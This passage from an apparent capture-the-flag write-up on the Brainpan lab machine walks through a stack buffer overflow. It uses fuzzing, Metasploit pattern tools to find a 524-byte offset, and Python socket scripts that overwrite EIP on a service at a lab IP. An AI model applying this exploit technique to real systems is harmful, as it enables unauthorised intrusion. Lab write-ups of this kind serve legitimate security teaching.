 Running the code provides us with the following output:

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/python-fuzzer-output.png)

Turns out that the overflow occurs around the length of 900 A's.

In Immunity we notice that the EIP has been overwritten with 41414141 (ASCII representation of four A's). It also says that an *Access violation* occurs while executing the code at address 41414141.

As the vulnerability is known and it's obvious that we've gained control over replacing the EIP address, it brings us closer to our goal.

Firstly, we need to find the offset that could control the EIP. We're gonna utilize a Metasploit feature and create a pattern consisting of a set of unique, three-character substrings: 

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/pattern-create-ruby.png)

It spits out a unique and random set that perfectly fits to our payload.
```
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.56.105',9999))

payload = ("Put the pattern here")

print s.recv(1024)
s.send(payload)
print s.recv(1024)

s.close()
```
Execution of the script causes *Access violation* again and leads to crash:

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/overwriting-eip.png)

As you can see above, the pattern inside the EIP is **35724134**

After having the pattern located inside the instruction pointer (EIP), let's determine the offset (known as the exact location of the address) and make it point to our malicious shellcode.

`ruby pattern_offset.rb -q 35724134`

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/pattern-offset-ruby.png)

Exactly 524 bytes of junk data is needed to get us to the EIP.

Now our payload will look like this: `"A"*524+"B"*4+"C"*(900-524-4)`

```
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.56.105',9999))

payload = "A"*524 + "B"*4 + "C"*(900-524-4)

print s.recv(1024)
s.send(payload+"\r\n")
print s.recv(1024)

s.close()
```
After executing this script the EIP gets overwritten with 42424242 (the ASCII code of "B" is 0x42)
